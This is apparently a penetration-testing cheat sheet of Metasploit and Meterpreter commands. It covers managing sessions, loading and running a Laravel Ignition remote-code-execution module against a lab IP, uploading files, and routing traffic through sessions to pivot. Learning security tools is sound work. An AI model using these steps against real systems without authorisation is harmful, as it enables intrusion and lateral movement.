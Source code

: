 - - -
### View sessions

```console
sessions 
```

### Upgrade the last opened session to Meterpreter 

```console
sessions -u -1 
```

### Interact with a session 

```console
sessions -i session_id 
```

### Background the currently interactive session, and go back to the Metasploit prompt 

```console
background
```


### Get information about the remote system, such as OS

```console
sysinfo 
```

### Upload a file or directory 

```console
upload local_file.txt 
```

### Display interfaces 

```console
ipconfig 
```

### Resolve a set of host names on the target to IP addresses - useful for pivoting 

```console
resolve remote_service1 remote_service2
```

### To search for a module, use the ‘search’ command: 

```console
msf6 > search laravel 
``` 

### Load a module with the ‘use’ command 

```console
msf6 > use multi/php/ignition_laravel_debug_rce
```

### view the information about the module, including the module options, description, CVE details, etc 

```console
msf6 exploit(multi/php/ignition_laravel_debug_rce) > info
```

### View the available options to set 

```console
show options
``` 

### Set the target host and logging 

```console
set rhost 10.10.56.197 
set verbose true 
```

### Set the payload listening address; this is the IP address of the host running Metasploit 

```console
set lhost LISTEN_IP 
```

### Run or check the module 

```sh
check
run
```

- - -

### Example usage

```console
route [add/remove] subnet netmask [comm/sid]
```

### Configure the routing table to send packets destined for 172.17.0.1 to the latest opened session

```console
route add 172.17.0.1/32 -1
```

### Configure the routing table to send packets destined for 172.28.101.48/29 subnet to the latest opened session

```console
route add 172.28.10.48/29 -1
```

### Output the routing table

```console
route print
```

